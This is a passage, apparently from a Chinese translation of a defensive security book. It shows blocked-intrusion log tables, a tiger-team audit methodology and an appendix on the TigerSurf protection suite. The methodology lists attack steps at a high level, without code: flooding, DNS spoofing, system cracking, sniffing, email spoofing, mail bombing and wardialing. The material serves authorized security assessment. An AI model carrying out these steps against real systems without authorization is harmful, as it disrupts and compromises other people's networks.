| 已确认 | 11/26/00 20:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 20:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 20:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 19:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 19:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |


 ## 黑客攻击已拦截

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/26/00 19:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 19:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:49 | 1 | 主机 iis4(10.15.1.62) 无响应。 |
| 已确认 | 11/26/00 18:46 | 1 | 主机 site1.targetsite.com(206.12.15.238) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 18:46 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:46 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:46 | 1 | 主机 iis4(10.15.1.62) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 18:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 18:10 | 1 | 主机 site1.targetsite.com(206.12.15.238) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 18:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 17:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 17:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 17:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 17:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 16:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 16:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 16:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 16:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 15:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 15:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 15:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 15:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 15:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 14:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 14:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 14:38 | 1 | 10.15.0.1 局域网过载。 |
| 已确认 | 11/26/00 14:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 14:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:39 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4933。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4933。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4920。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4920。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4918。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 13:28 | 3 | 10.15.0.1 未监听端口 4918。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 13:27 | 3 | 10.15.0.1 未监听端口 4916。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 13:27 | 3 | 10.15.0.1 未监听端口 4916。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 13:27 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:15 | 1 | 主机 206.12.15.238 无响应。 |
| 已确认 | 11/26/00 13:15 | 1 | 主机 iis4(10.15.1.62) 无响应。 |
| 已确认 | 11/26/00 13:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:06 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:06 | 1 | 主机 206.12.15.238 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 13:05 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 13:05 | 1 | 主机 iis4(10.15.1.62) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:58 | 1 | 主机 site1.targetsite.com(206.12.15.238) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:56 | 1 | 主机 206.12.15.238 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:55 | 1 | 主机 iis4(10.15.1.62) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 12:46 | 1 | 主机 206.12.15.238 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:45 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 12:45 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 12:45 | 1 | 主机 iis4(10.15.1.62) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/26/00 12:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 12:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 12:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 11:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 11:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 11:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 11:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 10:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 10:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 10:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 10:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:09 | 3 | 207.239.35.80 未监听端口 137。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 9:09 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:57 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:46 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:35 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 8:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 7:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 7:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 7:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 7:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 6:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 6:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 6:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 6:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 5:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 5:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 5:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 5:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 4:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 4:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 4:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 4:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |


 # 黑客攻击已被阻止

| 状态 | 日志时间 | 级别 | 描述 |
| --- | --- | --- | --- |
| 已确认 | 11/26/00 3:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 3:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 3:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 3:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 2:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 2:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 2:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 2:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 1:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 1:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 1:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 1:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 0:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 0:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 0:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 0:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 23:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 23:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 23:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 23:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 22:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 22:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 22:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 22:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 21:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 21:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 21:37 | 3 | 10.15.0.1 未在 161 端口监听。数据包来自 10.1.1.45。 |
| 已确认 | 11/25/00 21:37 | 3 | 10.15.0.1 未在 161 端口监听。数据包来自 10.1.1.45。 |
| 已确认 | 11/25/00 21:36 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 21:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 21:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 20:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 20:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 20:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 20:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 19:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 19:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 19:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 19:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 18:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 18:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 18:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 18:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 17:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 17:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 17:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 17:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 16:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 16:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 16:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 16:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 15:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 15:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 15:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 15:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 14:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 14:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 14:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 14:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 13:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 13:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 13:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 13:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 12:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 12:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 12:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 12:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 11:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 11:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 11:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 11:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 10:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 10:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 10:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 10:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 9:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 9:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 9:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 9:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 8:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/25/00 6:58 | 1 | 主机 10.15.0.5 未响应。 |
| 已确认 | 11/24/00 23:18 | 1 | 10.15.0.1 局域网过载 |
| 已确认 | 11/24/00 23:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/24/00 22:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/24/00 22:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/24/00 22:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |
| 已确认 | 11/24/00 22:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包来自 10.15.0.1。 |

## 锁定实施

我们已经走到了本书的结尾。我们讨论了构成著名黑客技术基础的技术信息（包括广为人知和秘密的）；我们揭示了硬件和软件中的漏洞，这些漏洞使它们容易受到黑客攻击；我们回顾了老虎队用于对黑客攻击发起反击的技术；我们还探讨了创建卓越安全策略的联邦指导方针。到目前为止，这是一段激动人心的旅程，但真正的冒险尚未开始。

现在是时候将我们所学的全部付诸实践，实施定制安全锁定了。无论您关注的是家庭安全还是企业工作站和/或网络的安全，都可以使用本书中描述的老虎队技术来制定一套成功的保护策略。


 ## 安全分析审查

### 盲测

我们从所谓的盲测开始，即在没有详细了解目标基础设施的情况下进行远程测试。这一阶段包括：

- **站点扫描。** 进行网络发现，对发现过程中识别的所有端口进行扫描，应用扫描以识别与发现端口相关的系统服务，并进行端口吞吐量扫描以利用率识别漏洞。

- **远程审计。** 测试周边防御、外部ISP服务以及任何其他通过防火墙或代理作为通道的网络服务的配置、稳定性和漏洞。

- **渗透测试。** 攻击并评估物理安全性，意图渗透站点扫描、远程审计以及CGI、JavaScript和ActiveX源代码审计中识别的所有项目；启动ODBC捕获（数据库）；执行IP洪水测试；启动标准NT、Novell、*NIX IOS破解和DNS欺骗；初始化嗅探器被动探针以捕获流量。

- **IP、邮件欺骗和垃圾邮件测试。** 执行渗透攻击，诱骗基础设施设备做出有害声明和/或泄露敏感信息（如密码）；测试伪造电子邮件的能力，控制任何SMTP、POP3或IMAP4服务器，以及利用带宽发送外部邮件轰炸。

> **Tiger 提示** 别忘了：在安全分析的所有阶段都要记录一切！

### 知情渗透

知情渗透是指在对目标基础设施有预先了解的情况下进行测试。这个阶段涉及：

- **基础设施示意图审计。** IP/IPX寻址方案、协议、网络/端口地址转换方案、拨号信息（用户、拨号号码、访问方法等）、网络互联操作系统（IOS）配置、特权访问点、详细的外部配置（ISP、Web托管等）。

- **站点扫描。** 进行网络发现，对发现过程中识别的所有端口进行扫描，应用扫描以识别与发现端口相关的系统服务，以及端口吞吐量扫描以利用率识别漏洞。

- **远程审计。** 测试周边防御、外部ISP服务以及任何其他通过防火墙或代理作为通道的网络服务的配置、稳定性和漏洞。

- **渗透测试。** 攻击并评估物理安全性，意图渗透站点扫描、远程审计以及CGI、JavaScript和ActiveX源代码审计中识别的所有项目；启动ODBC捕获（数据库）；使用KissPring®进行Novell、*NIX IOS破解和DNS欺骗；初始化嗅探器被动探针以捕获流量。

- **IP、邮件欺骗和垃圾邮件测试。** 执行渗透攻击，诱骗基础设施设备做出有害声明和/或泄露敏感信息（如密码）；测试伪造电子邮件和控制任何SMTP、POP3或IMAP4服务器的能力，以及利用带宽发送外部邮件轰炸。

### 互联网服务

对于互联网服务，执行以下操作：

- 进行渗透测试；攻击并评估物理安全性，意图渗透站点扫描、远程审计以及CGI、JavaScript和ActiveX源代码审计中识别的所有项目。

- 从已识别的数据库启动ODBC调用。

- 执行IP、HTTP和ICMP洪水测试，以及DNS欺骗。

### 拨号审计

在此阶段，采取以下措施：

- 审计拨号接入点。

- 实施 wardialing 以扫描和检测配置不当的拨号和终端服务器（PCAnywhere、Reachout和/或Citrix等），以及任何流氓或未经授权的桌面调制解调器。

### 本地基础设施审计

本地基础设施审计是将各节报告汇编为可交付成果。从这些数据中，我们可以建议提高吞吐量和生产力。最重要的是，这一阶段生成一份**用户问题报告**，报告启动缓慢、文件/打印困难、低带宽可用性和自发连接终止、按协议族划分的流量组成，以及发现的网络站点及其错误数量或症状。

### 广域网审计

与本地基础设施审计类似，广域网审计是将各节报告汇编为可交付成果，包括网络互联设备发现、告警和阈值（实时跟踪所有HTTP、FTP、POP3、SMTP和NNTP流量，以及自定义站点访问信息）。其他监控的访问信息包括网络负载、每个用户访问的次数和频率，以及拒绝尝试（摘要形式），还有告警/事件日志（分析会话期间实际日志文件的摘录）。

### 结论

作为本章的结尾，几点最后的提示：

- 使用安全策略指南，根据分析结果制定新保护计划的模板。对需要立即修复的每个漏洞进行评论。

- 使用本书和其他来源中的技术，按照个人和/或公司运营政策，对所有潜在漏洞区域实施对策。

- 利用*Hack Attacks Revealed, Second Edition*和本书附带的自定义软件工具，作为针对不熟悉黑客攻击的额外保护措施。

- 纳入频繁的安全分析，以适应站点和/或基础设施的变更。

有关周边防御机制的更多信息，请访问*www.icsa.net/html/communities/firewalls/buyers_guide/FWguide99.pdf*获取防火墙购买指南，该指南对热门厂商产品进行评估、批评和比较。

# 附录 A

## SafetyWare

本附录介绍TigerSurf，一套SafetyWare套件，家庭和企业用户都可以将其作为完整互联网保护工具包的一部分。

> Tiger 提示：SafetyWare定义为帮助保护、保存和监控计算机免受黑客攻击的任何程序。SafetyWare可以包括实用程序、服务器守护程序或可作为安全锁定程序一部分实施的背景模块。

### TigerSurf 2.0

附加到标准HTTP或互联网网页的破坏性代码正变得越来越普遍。例如，仅仅通过查看网页，您可能就在下载病毒（即破坏性代码）；如果您的系统没有得到标准病毒防护软件的充分保护，您的程序和/或文件将面临风险。另一个例子是"推送"网页并随第一个网页启动多个屏幕的网站。这至少可能令人烦恼，最坏则可能有害。

针对这些及其他攻击，TigerSurf应运而生，它基于安全的互联网浏览器模块，旨在帮助保护您的系统。从根本上说，该套件提供针对破坏性网页、浏览器洪水攻击（不再有大规模弹出屏幕）和远程木马的防护。

TigerSurf包含一个安全的多流互联网搜索引擎，使您能够使用关键词搜索几个主要搜索引擎：只需切换标签即可查看每个搜索引擎的结果；无需重新搜索Web。TigerSurf支持所有Microsoft Internet Explorer插件和专有过滤器，并兼容所有互联网编程语言。它的其他功能（将在后续章节中解释）包括：

- HTML编辑器
- TigerWatch
- TigerBlock
- 安全扫描
- TigerSearch
- TigerTrack
- FTP
- Telnet
- 屏幕捕获
- 图像查看器

> **Tiger 提示** 在安装TigerSurf 2.0（本书附带的CD上提供）之前，请将您的Internet Explorer升级到5x、6x或更高版本。

#### 常规操作

执行TigerSurf后，系统将提示您输入安全浏览器登录密码，即TIGER（此版本为大写），如图A.1所示。此时，浏览器将在MS Internet Explorer上初始化，并访问www.TigerTools.net，您可以在那里获取TigerSurf更新信息和版本修改信息（图A.2）。

位于浏览器顶部的文件菜单支持以下选项（图A.3）：

- *新建浏览器窗口。* 打开单独的IE窗口进行标准Web浏览。
- *打开。* 从硬盘、软盘或CD-ROM打开网页文件进行查看。


 

图 A.1 TigerSurf 安全浏览器登录界面。

